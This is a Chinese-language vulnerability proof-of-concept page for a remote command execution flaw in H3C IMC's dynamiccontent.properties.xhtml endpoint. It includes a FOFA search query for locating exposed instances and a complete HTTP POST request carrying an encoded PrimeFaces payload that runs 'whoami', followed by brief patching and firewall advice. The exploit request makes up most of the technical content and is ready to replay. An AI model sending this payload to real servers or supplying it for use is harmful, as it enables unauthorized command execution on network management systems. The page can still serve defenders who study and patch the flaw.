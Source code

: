 # H3C IMC 远程命令执行漏洞

# 一、漏洞概述
H3C IMC（Intlligent Management Center）智能管理中心是H3C推出的下一代业务智能管理产品。它融合了当前多个产品，以统一风格提供与网络相关的各类管理、控制、监控等功能；同时以开放的组件化的架构原型，向平台及其承载业务提供分布式、分级式交互管理特性；并为业务软件的下一代产品提供最可靠的、可扩展、高性能的业务平台。  
H3C IMC dynamiccontent.properties.xhtml 存在远程命令执行，攻击者通过构造特殊的请求造成远程命令执行

# 二、影响版本
H3C IMC

# 三、资产测绘
+ FOFA：`body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"`

![1689519334500-a1cf7457-ee3a-4052-8e36-53bd8df4c281.png](./img/uHodyoTTZJUrnqUk/1689519334500-a1cf7457-ee3a-4052-8e36-53bd8df4c281-334876.png)

+ 登陆页面：

![1689519365071-67684930-e208-4ae5-a892-175f60f5b428.png](./img/uHodyoTTZJUrnqUk/1689519365071-67684930-e208-4ae5-a892-175f60f5b428-458481.png)

# 四、漏洞复现
漏洞位置：`/imc/javax.faces.resource/dynamiccontent.properties.xhtml`

数据包：

```plain
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F92841E0E8B8B5862380EE8A26113638; oam.Flash.RENDERMAP.TOKEN=-2s6vgzlac
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1567

cmd=whoami&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&pfdrt=sc
```

![1689519490720-6b4386a4-69b6-48a2-91f0-6702e4b260a6.png](./img/uHodyoTTZJUrnqUk/1689519490720-6b4386a4-69b6-48a2-91f0-6702e4b260a6-819474.png)

# 五、整改建议
升级IMC平台和相关组件的版本到最新，需注意适配的情况。其次可以在IMC所在的服务器的操作系统防火墙上配置出入站规则，拦截高危端口。在网络设备侧或安全设备侧通过安全策略、ACL的方式来进行拦截。条件允许的话，可考虑给服务器操作系统打补丁



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yd9izcxtofrr2q1i>